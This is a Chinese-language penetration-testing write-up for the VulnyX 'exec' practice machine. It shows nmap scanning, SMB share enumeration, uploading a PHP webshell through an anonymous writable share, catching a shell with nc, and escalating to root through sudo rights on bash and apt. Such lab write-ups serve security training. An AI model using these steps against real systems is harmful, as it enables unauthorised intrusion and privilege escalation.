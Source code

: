 # 环境

来自[vulnyx_exec](https://vulnyx.com/#exec)，利用smb具有读写权限传shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240702094927543](image/image-20240702094927543.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.30
```

![image-20240702095101684](image/image-20240702095101684.png)

## 服务探测

```bash
sudo nmap -sV -sC -O -p22,80,139,445 192.168.88.30
```

![image-20240702095234911](image/image-20240702095234911.png)

# smb渗透

访问80，发现只有测试页面，目录扫描也没有什么发现

## smb信息收集

所有对smb进行深度信息收集，工具使用enum4linux，netexec、smbmap都行

**enum4linux**

```bash
enum4linux -S 192.168.88.30
```

![image-20240702095443873](image/image-20240702095443873.png)

**netexec**

```bash
netexec smb //192.168.88.30 -u '' -p '' --shares
```

![image-20240702100108738](image/image-20240702100108738.png)

**smbmap**

```bash
smbmap --no-banner -H 192.168.1.74
```

![image-20240702112438255](image/image-20240702112438255.png)

发现这个server有读写权限

## 连接smb

```bash
cp /usr/share/webshells/php/simple-backdoor.php ./shell.php
修改shell.php的ip和端口
smbclient //192.168.88.30 -U '' -N
smb: \> put shell.php
nc -lvvp 9999
```

![image-20240702100918349](image/image-20240702100918349.png)

访问`http://192.168.88.30/door.php`，即可拿shell

![image-20240702110028222](image/image-20240702110028222.png)

## sudo提权

[linux命令提权](https://gtfobins.github.io/)中的apt提权

```bash
$ /bin/script -qc /bin/bash /dev/null
www-data@exec:/$ sudo -l
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
www-data@exec:/$ sudo -u s3cur4 /usr/bin/bash
s3cur4@exec:/$ sudo -l
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty
User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
#apt提权可查看GTFBins
s3cur4@exec:/$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```
